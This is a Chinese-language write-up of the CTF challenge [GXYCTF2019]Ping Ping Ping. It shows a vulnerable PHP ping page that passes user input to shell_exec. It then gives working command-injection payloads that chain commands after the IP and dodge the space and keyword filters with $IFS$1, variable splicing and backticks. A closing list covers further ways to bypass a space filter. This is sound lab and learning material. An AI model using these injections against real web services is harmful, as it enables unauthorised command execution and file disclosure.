



# [GXYCTF2019]Ping Ping Ping

【命令注入】

打开题目，由于题目是Ping，当然是命令注入的相关问题，直接输入127.0.0.1观察ping之后页面的回显。



`ls`查看当前目录文件，有文件名回显，但`cat flag.php`根据回显可以看出 空格 被过滤了。


用 shell 特殊字符`$FIS`绕过空格，`cat$IFSflag.php`，回显 flag 被过滤（同时也证明空格绕过成功），于是尝试`cat$IFSindex.php`，但仅显示 ping 的结果。

看 wp 在`$IFS`后加`$1`，变为`cat$IFS$1index.php`，可以看到源码。（$1-9 原本指该 shell 脚本中传入的第几个参数，这里由于没有传参则表示为空）


```php
<?php
if(isset($_GET['ip'])){
    $ip = $_GET['ip'];
    if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
        echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
        die("fxck your symbol!");
    } else if(preg_match("/ /", $ip)){
        die("fxck your space!");
    } else if(preg_match("/bash/", $ip)){
        die("fxck your bash!");
    } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
        die("fxck your flag!");
    }
    $a = shell_exec("ping -c 4 ".$ip);
    echo "<pre>";
    print_r($a);
}
?>
```

通过源码可以看出题目中所过滤掉的所有字符。
构造 payload：`?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php`，然后查看源码得出 flag 。



wp 中还有 payload：`` ?ip=127.0.0.1;cat$IFS$1`ls` ``，先执行反引号`` ` `  ``中的内容，将其值传递给调用它的命令，查看源代码得出 flag 。


#### 补充
**空格绕过的几种方式：**`< 、<>、%20(space)、%09(tab)、$IFS$9、 ${IFS}、$IFS`等。

>参考：
>https://www.cnblogs.com/Cl0ud/p/12313368.html
>https://blog.csdn.net/mochu7777777/article/details/109180116